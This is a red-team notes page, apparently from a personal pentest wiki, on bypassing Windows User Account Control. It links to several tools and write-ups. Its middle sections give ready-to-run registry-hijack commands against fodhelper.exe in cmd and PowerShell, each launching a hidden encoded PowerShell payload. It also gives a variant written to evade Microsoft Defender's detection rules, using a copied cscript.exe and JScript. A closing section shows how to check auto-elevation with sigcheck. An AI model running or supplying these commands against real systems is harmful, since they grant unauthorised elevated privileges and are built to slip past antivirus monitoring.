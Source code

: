 ```yaml
---
title: UAC Bypass
---
```


When you are local admin on [[notes/windows/index]], but you have a filtered token (medium integrity) and want to obtain an unfiltered token (high integrity), you have to bypass UAC.

Untested tools:

- [UACME](https://github.com/hfiref0x/UACME), implements multiple techniques
- [IDiagnosticProfileUAC](https://github.com/Wh04m1001/IDiagnosticProfileUAC)

References:

- [twitter.com/splinter_code/status/1695839278176108735](https://twitter.com/splinter_code/status/1695839278176108735) and [Accessing Access Tokens for UIAccess](http://web.archive.org/web/20230531102216/https://www.tiraniddo.dev/2019/02/accessing-access-tokens-for-uiaccess.html), overcomplicated UAC bypass involving UI automation
- [Advanced Windows Task Scheduler Playbook - Part.2 from COM to UAC bypass and get SYSTEM dirtily](http://web.archive.org/web/20230723100015/https://www.zcgonvh.com/post/Advanced_Windows_Task_Scheduler_Playbook-Part.2_from_COM_to_UAC_bypass_and_get_SYSTEM_dirtectly.html)
- [UAC bypass through Trusted Folder abuse](http://web.archive.org/web/20230310190607/https://redteamer.tips/uac-bypass-through-trusted-folder-abuse/)
- [Exploiting environment variables in scheduled tasks for UAC bypass](http://web.archive.org/web/20221206201830/https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html)

# FoDHelper

The auto-elevating `fodhelper.exe` reads a command from the HKCU hive and executes it.
This works at least since Windows 10 1709 and is still unpatched as of January 2023.

=== "cmd"
    ~~~ bat
    reg.exe add HKCU\Software\Classes\ms-settings\shell\open\command /d "powershell.exe -ep bypass -w hidden -e %base64%" /f
    reg.exe add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /f
    C:\Windows\System32\fodhelper.exe
    ~~~

=== "PowerShell"
    ~~~ powershell
    New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe -ep bypass -w hidden -e $base64" –Force
    New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
    C:\Windows\System32\fodhelper.exe
    ~~~

**OpSec:** Microsoft Defender detects the exploitation, but does not prevent it.

Evade Defenders detection rules (as of January 2023).

~~~ bat
copy %windir%\System32\cscript.exe %windir%\System32\Tasks\test.exe
echo new ActiveXObject('WScript.Shell').Run('powershell -ep bypass -w hidden -e %payload%') > %windir%\System32\Tasks\test.txt
reg add HKCU\Software\Classes\ms-settings\shell\open\command /d "%windir%\System32\Tasks\test.exe -e:jscript %windir%\System32\Tasks\test.txt" /f
reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /f
%windir%\System32\fodhelper.exe
~~~

# Auto Elevation

Programs signed by Microsoft that are marked as *Auto Elevate* do not trigger UAC when started by an administrator.

Check if an executable is allowed to auto elevate with [Sigcheck](https://docs.microsoft.com/en-us/sysinternals/downloads/sigcheck).

~~~
C:\> sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
...
<trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
    <security>
    <requestedPrivileges>
        <requestedExecutionLevel level="requireAdministrator"/>
    </requestedPrivileges>
    </security>
</trustInfo>
<asmv3:application>
    <asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
    <autoElevate>true</autoElevate>
    </asmv3:windowsSettings>
</asmv3:application>
...
~~~
